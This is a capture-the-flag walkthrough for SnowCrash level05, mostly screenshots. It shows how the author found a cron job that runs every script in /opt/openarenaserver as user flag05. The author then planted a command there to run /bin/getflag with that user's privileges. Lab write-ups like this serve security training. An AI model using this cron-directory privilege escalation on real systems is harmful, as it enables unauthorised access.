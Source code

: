 #level05

When we login to level05 we are greeted with this mysterious message:

![image](https://github.com/user-attachments/assets/87ab7b93-e29c-4c7c-b8e9-cbdd9a9ad828)

If you don't get the message above try reseting your ssh connection and logging in to level05 directly. 

Now let's see where this 'mail' is: `level05@SnowCrash:~$ find / -name mail 2>/dev/null`

![image](https://github.com/user-attachments/assets/517f1790-d4ca-4573-9c6b-2cd67210827d)

We need to investigate further

![image](https://github.com/user-attachments/assets/8fa938cc-70db-464a-9e2e-30cc4949b8de)

![image](https://github.com/user-attachments/assets/0fc7e992-9d27-4af9-85a1-0887a472aeec)

![image](https://github.com/user-attachments/assets/b292d9a3-f7c3-466a-8444-ef9119382e91)

`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

![image](https://github.com/user-attachments/assets/3fb1d7d0-947d-4781-a613-d2b851c505bf)

![image](https://github.com/user-attachments/assets/e7fa4a20-25c6-403f-a2cf-80ed8d4b9a4c)

```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
![image](https://github.com/user-attachments/assets/b87abe0b-a821-4aeb-8825-df6c51f46fdd)

![image](https://github.com/user-attachments/assets/3b8515a6-d804-49d6-9297-a6b91595bad1)

`level05@SnowCrash:/opt/openarenaserver$ echo "/bin/getflag > /tmp/test" > /opt/openarenaserver/test`

![image](https://github.com/user-attachments/assets/86d331f9-ec8a-41fa-87b3-868b45507df9)

![image](https://github.com/user-attachments/assets/bf7f7f7f-833a-4800-a8cd-6254228e1175)
